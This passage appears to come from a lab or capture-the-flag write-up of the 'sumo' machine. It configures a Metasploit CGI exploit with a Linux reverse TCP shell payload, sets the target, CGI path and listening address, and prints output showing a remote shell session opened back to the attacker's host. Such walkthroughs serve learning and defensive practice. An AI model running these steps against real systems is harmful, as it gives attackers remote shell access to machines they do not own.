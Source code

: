 ```console
   SRVHOST         0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host

Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

We need to:
* Set the target host `set RHOSTS sumo`
* Set path to CGI `set TARGETURI /cgi-bin/test`
* Set listening address (our host IP in this case) `set LHOST 10.0.0.4`

Now we can launch the attack using `exploit` command

```console
[*] Started reverse TCP handler on 10.0.0.4:4444 
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
...
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
[*] Command Stager progress - 100.61% done (822/817 bytes)
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
...
/usr/share/metasploit-framework/lib/rex/proto/http/client.rb:96: warning: deprecated Object#=~ is called on FalseClass; it always returns nil
[*] Command shell session 1 opened (10.0.0.4:4444 -> 10.0.0.9:35472) at 2020-06-15 21:57:08 +0100
```
